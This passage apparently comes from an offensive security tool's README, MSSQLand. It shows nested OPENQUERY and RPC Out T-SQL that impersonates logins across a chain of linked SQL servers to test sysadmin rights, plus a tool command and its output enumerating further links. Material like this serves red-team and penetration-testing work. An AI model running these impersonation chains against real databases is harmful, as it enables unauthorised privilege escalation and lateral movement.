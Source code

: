 ## Show Time 👑
You gain access to a database `SQL01` mapped to the user `dbo`. You need to impersonate `webapp02` in order to connect to linked database `SQL02`. In `SQL02`, you need to impersonate `webapp03` in order to go further and so on and so forth. Let's say you’ve landed an agent inside a `sqlservr.exe` process running under the high-privileged `NT AUTHORITY\SYSTEM`. Lucky you!

After some reconnaissance, you suspect this is a multi-hop linked server chain. Typing out all those **RPC** or **OPENQUERY** calls manually? 

This is what it looks like to verify if you are `sysadmin` in `SQL03` when you have to impersonate `webapp03` on `SQL02` and `webapp04` on `SQL03`:

- [OPENQUERY](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_data_access_enabled`):

```sql
SELECT * FROM OPENQUERY([SQL02], 'EXECUTE AS LOGIN = ''webapp03''; SELECT * FROM OPENQUERY([SQL03], ''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') REVERT;')
```

- [RPC Out](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_rpc_out_enabled`):

```shell
EXEC ('EXECUTE AS LOGIN = ''webapp03''; EXEC (''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') AT [SQL03]; REVERT;') AT [SQL02]
```

No thanks 🚫. Let MSSQLand handle the heavy lifting so you can focus on the big picture. You've already impersonated multiple users on each hop, and now you want to enumerate links on `SQL04`:

```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:links
```

The output is as follows:
```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone on SQL01 as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Logged in as webapp02
|-> Mapped to the user dbo
[i] Execution chain: SQL02 -> SQL03 -> SQL04
[i] Logged in on SQL04 as webapps
|-> Mapped to the user guest

[>] Executing action 'Links' against SQL04
|-> Retrieving Linked SQL Servers

| Last Modified        | Link  | Product    | Provider | Data Source | Local Login | Remote Login | RPC Out | OPENQUERY | Collation |
| -------------------- | ----- | ---------- | -------- | ----------- | ----------- | ------------ | ------- | --------- | --------- |
| 7/7/2020 1:02:17 PM  | SQL05 | SQL Server | SQLNCLI  | SQL05       | webapp05    | webapps      | True    | True      | False     |
```
